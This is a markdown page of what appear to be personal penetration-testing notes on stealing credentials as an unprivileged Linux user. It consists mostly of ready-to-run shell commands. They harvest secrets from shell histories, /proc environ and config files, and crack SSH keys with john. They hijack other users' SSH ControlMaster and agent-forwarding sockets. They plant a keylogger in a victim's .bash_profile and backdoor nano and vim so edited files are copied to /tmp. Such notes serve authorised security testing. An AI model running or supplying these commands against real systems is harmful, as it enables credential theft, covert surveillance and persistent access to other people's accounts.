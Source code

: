 ```yaml
---
title: Unprivileged Linux Credential Access
---
```


[[notes/mitre-attack/credential-access]] as normal user on [[notes/linux/index]].

Also check [[notes/linux/credential-access-admin]], maybe something is misconfigured.

Shell and other histories.

~~~ bash
cat ~/.bash_history
ls -ld /home/*/.*hist* /home/*/.*hsts*
~~~

Secrets in environment variables and program command lines.

~~~ bash
env || cat /proc/self/environ
cat /proc/*/environ
cat /proc/*/cmdline
~~~

Database passwords in web app configs.

~~~ bash
grep -ir --color passw /var/www/html/
~~~

Potential secrets in files.

~~~ bash
find / -type f -readable '(' -name '*id*' -or -name '*key*' -or -name '*passw*' -or -name '*secret*' -or -name '*token*' ')' ! -path '/sys/*' ! -path '/proc/*' ! -path '/dev/*' 2> /dev/null | sort
grep -ril -D skip 'id|key|passw|secret|token' / 2> /dev/null | sort | uniq
~~~

Potential hashes in files.

~~~ bash
grep -ir -D skip '[0-9a-f]{32,}' /
~~~

Secrets in logs (requires elevated privileges).

~~~ bash
grep -Fi passw /var/log/syslog
~~~

"Hidden" files.

~~~ bash
find / ! -type l ! -path '/sys/*' ! -path '/proc/*' ! -path '/usr/src/*' -name '.*' -ls 2> /dev/null
~~~

Paths readable by the current user.

~~~ bash
find / -readable -type f ! -path '/usr/*' ! -path '/bin/*' ! -path '/lib/*' ! -path "$HOME/*" ! -path '/sys/*' ! -path '/proc/*' ! -path '/var/lib/lxcfs/cgroup/*' -ls 2> /dev/null
~~~

Use `script` as builtin key logger.

~~~ bash
echo 'exec script -qc $SHELL /tmp/7cc62021.tmp' >> /home/victim/.bash_profile
~~~

Untested tools:

- [LaZagne](https://github.com/alessandroz/lazagne), extracts secrets from browsers and many other applications, Python

# SSH

Search for SSH private keys.

~~~ bash
ls -la /home/*/.ssh/
find / ! -path '/dev/*' ! -path '/proc/*' ! -path '/sys/*' -type f '(' -iname 'id_*' -or -iname '*.key' ')' -ls 2> /dev/null
grep -lrE 'BEGIN.*?PRIVATE KEY' /home 2> /dev/null
~~~

If you found a key check the `~/.ssh/known_hosts` and `~/.bash_history` to see where you can authenticate with the key.

Try to crack password protected keys.

~~~ bash
ssh2john ./jdoeadm.key > ./jdoeadm.txt
john --wordlist=$HOME/pentesting/cracking/rockyou.txt ./jdoeadm.txt
~~~

## SSH Hijacking with ControlMaster

Hijack SSH connections that are initiated by other users on the current system.

~~~ bash
# as user
cat << 'EOF' >> ~/.ssh/config
Host *
  ControlPath /tmp/.ssh-%r@%h:%p.sock
  ControlMaster auto
  ControlPersist 15m
EOF
# as root
cat << 'EOF' >> /etc/ssh/ssh_config
Host *
  ControlPath /tmp/.ssh-%r@%h:%p.sock
  ControlMaster auto
  ControlPersist 15m
EOF
~~~

Use the *Control Master* socket of somebody else.

~~~ bash
ssh -S /tmp/.ssh-jdoe@srv01:22.sock jdoe@srv01
~~~

## SSH Hijacking using SSH Agent Forwarding

Connect to all systems that a user that is connected to the current system and has enabled *Agent Forwarding* has access to.

Find SSH agent sockets.

~~~ bash
grep -ahoP 'SSH_AUTH_SOCK=.*?\x00' /proc/*/environ 2> /dev/null | sort -Vu
ps aux | grep ssh
~~~

Use the agent socket of another user.

~~~ bash
export SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380
ssh-add -l
ssh jdoe@srv01
~~~

# Kerberos

Search for Kerberos TGTs.

~~~ bash
klist
echo $KRB5CCNAME
ls -la /tmp/krb5cc_*
~~~

# Backdoor Editors

Place the following snippet in `~/.nanorc` or `/etc/nanorc` to make `nano` copy all files opened in it to a public directory ([source](https://twitter.com/Alh4zr3d/status/1632255613840547840)).

~~~
set backup
set backupdir /tmp/.nano
set allow_insecure_backup
~~~

Place the following snippet in `~/.vim/plugin/zz.vim` to make `vim` copy all files opened in it to a public directory.

~~~
if $USER == "root"
  autocmd BufWritePost * :silent :w! >> /tmp/.vimlog
endif
~~~
